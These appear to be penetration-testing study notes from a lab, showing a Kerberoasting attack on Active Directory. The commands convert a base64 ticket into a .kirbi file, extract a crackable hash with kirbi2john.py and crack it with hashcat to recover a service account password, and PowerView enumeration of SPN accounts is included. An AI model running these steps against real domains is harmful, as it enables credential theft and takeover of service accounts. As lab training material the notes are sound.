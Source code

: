 Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

#### Preparing the Base64 Blob for Cracking

  Preparing the Base64 Blob for Cracking

```bash
$ echo "<base64 blob>" |  tr -d \\n

# placing the output into a file as .kirbi

cat <file> | base64 -d > sqldev.kirbi

```
Next, we can use [this](https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py) version of the `kirbi2john.py` tool to extract the Kerberos ticket from the TGS file.


### Extracting the Kerberos Ticker Using kirbi2john.py
```bash
$ python2.7 kirbi2john.py sqldev.kribi
```
	This will create a file called crack_file. Must modify the file a bit to be able to use hashcat against it.


#### Modifiying crack_file for Hashcat

```bash
[~/] sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

We can then run the ticket through Hashcat again and get the cleartext password `database!`.

#### Cracking the Hash with Hashcat

  Cracking the Hash with Hashcat

```shell-session
gdxqpardo@htb[/htb]$ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```

## Automated/Tool Based Route
#powerview #windows #kerberos #kerberoast 

### Using PowerView to Extract TGS Tickets
```powershell
PS C:\EP> Import-Module .\PowerView.ps1

PS C:\EP> Get-DomainUser * -spn | select samaccountname
#OUTPUT:

samaccountname
--------------
adfs
backupagent
krbtgt
sqldev
sqlprod
sqlqa
solarwindsmonitor
```

